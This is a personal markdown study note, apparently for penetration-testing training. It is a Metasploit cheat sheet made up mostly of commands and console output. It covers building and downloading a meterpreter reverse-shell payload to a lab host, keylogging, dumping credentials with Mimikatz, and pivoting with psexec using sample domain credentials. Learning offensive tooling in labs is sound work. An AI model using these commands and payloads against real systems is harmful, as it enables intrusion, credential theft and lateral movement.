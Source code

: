 ```yaml
---
creation date: December 20th 2022
last modified date: December 20th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Metasploit]]  
___

## Description:  

### Getting meterpreter session from shell

Use [revshells](https://www.revshells.com/) msfvenom session to generate a payload
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.95 LPORT=9001 -f exe -o reverse.exe`

transfer the exe to the machine
`sudo python3 -m http.server 80`
`wget http://10.10.14.95/reverse.exe -o reverse.exe`

Set up a listener in msfconsole:
`sudo msfconsole`
`use multi/handler`
`set payload windows/x64/meterpreter/reverse_tcp
`set lport 9001`
`set lhost 10.10.14.95`
`exploit`
Run it on the victims machine:
`./reverse.exe`

### Basics
View categories
`show -h`
`show auxiliary`

To search for a module
`search portscan`

Use `info` to get more information
`msf5 > info exploit/windows/http/syncbreeze_bof`

To activate a module
`use auxiliary/scanner/portscan/tcp`
or you can search first and then just pick the number you want
`use 4`
`back` can be used to move out of the module and return to the main msf5 prompt.

To view details of a module
`show options`
`show advanced` to show more options.
`set`  and `unset` can be used to set and remove options.

`show payloads` can be used to retrieve a listing of all payloads that are compatible with the currently selected exploit module.

`check` can be used to verify whether or not the target host and application are vulnerable (will only work on certain modules).

use `run` or `exploit` to start the module once the options are set. `exploit -j` will run the job in the background.

use `jobs` to list background jobs, `jobs -i 0` to interact with a job, and `kill 0` to kill a job.

We can retrieve information regarding successful login  attempts from the database with `creds`.

### Meterpreter Commands

`help` will get a list of modules and commands

Useful commands:
```
sysinfo
getuid
upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\Offsec
download c:\\Windows\\system32\\calc.exe /tmp/calc.exe
edit edit.txt
search -f autoexec.bat
execute -f cmd.exe -i -H
```

use `shell` to drop into a system shell. This can be useful when our shells dies, we can return to the meterpreter session with `^c` or `exit`.

`background` can be used to background a session. Use `sessions -l` to list sessions, `session -i 5` to interact, and `session -k 1` to kill a session.

We can use `transport list` to switch protocols after our initial compromise.
To add a new transport protocol (this would be like choosing windows/meterpreter/reverse_tcp payload)
`meterpreter > transport add -t reverse_tcp -l 10.11.0.4 -p 5555`
We have to set up a listener to accept the connection.
```
meterpreter > background
[*] Backgrounding session 5...
msf5 exploit(windows/http/syncbreeze_bof) > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > exploit -j
msf5 exploit(multi/handler) > sessions -i 5
meterpreter > transport next
[*] Changing to next transport ...
[*] Sending stage (179779 bytes) to 10.11.0.22
[+] Successfully changed to the next transport, killing current session.
msf5 exploit(multi/handler) > sessions -i 6
```

### Post-Exploitation with Metasploit

^5b4372
Screenshot and keylogger
```
meterpreter > screenshot
Screenshot saved to:/root/.msf4/modules/exploits/windows/http/syncbreeze/beVjSnrB.jpeg


meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes...
ipconfig<CR>
whoami<CR>
meterpreter > keyscan_stop
Stopping the keystroke sniffer...
meterpreter >

```

Executing Powershell Commands
```
meterpreter > load powershell

meterpreter > help powershell
Powershell Commands
===================
 Command Description
 ------- -----------
 powershell_execute Execute a Powershell command string
 powershell_import Import a PS1 script or .NET Assembly DLL
 powershell_shell Create an interactive Powershell prompt

meterpreter > powershell_execute "$PSVersionTable.PSVersion"

```

Loading Mimikatz and dumping system credentials.
```
meterpreter > load kiwi
Loading extension kiwi...
Success.
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > creds_msv
```


### Pivoting

^8f3ca2

^6aac08
We will use route and add to create a path to the alternate internal network subnet we discovered. We will also specify the session ID that this route will apply to:
```
msf5 > route add 192.168.1.0/24 11
[*] Route added
msf5 > route print
```
We can now portscan into this network
```
msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.1.110
RHOSTS => 192.168.1.110
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
PORTS => 445,3389
msf5 auxiliary(scanner/portscan/tcp) > run
```
We can also pivot using the psexec module:
```
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec_psh) > set SMBDomain corp
SMBDomain => corp
msf5 exploit(windows/smb/psexec_psh) > set SMBUser jeff_admin
SMBUser => jeff_admin
msf5 exploit(windows/smb/psexec_psh) > set SMBPass Qwerty09!
SMBPass => Qwerty09!
msf5 exploit(windows/smb/psexec_psh) > set RHOSTS 192.168.1.110
RHOSTS => 192.168.1.110
msf5 exploit(windows/smb/psexec_psh) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf5 exploit(windows/smb/psexec_psh) > set RHOST 192.168.1.110
LHOST => 192.168.1.110
msf5 exploit(windows/smb/psexec_psh) > set LPORT 444
LPORT => 444
msf5 exploit(windows/smb/psexec_psh) > exploit
```
It’s important to note that the added route will only work with established connections, meaning that a new shell. A reverse shell would not be able to find it's way back to the attacking machine.

As an alternative to adding routes manually, we can use the autoroute post-exploitation module, which can set up pivot routes through an existing meterpreter session automatically.

```
msf5 exploit(multi/handler) > use multi/manage/autoroute
msf5 post(multi/manage/autoroute) > show options
msf5 post(multi/manage/autoroute) > set session 4
msf5 post(multi/manage/autoroute) > exploit

```

Setup a socks proxy:
[[SOCKS Proxies#^8b8d22]]

Port forward:
[[Port Forwards#^651985]]





___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 20th 2022 (10:33 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
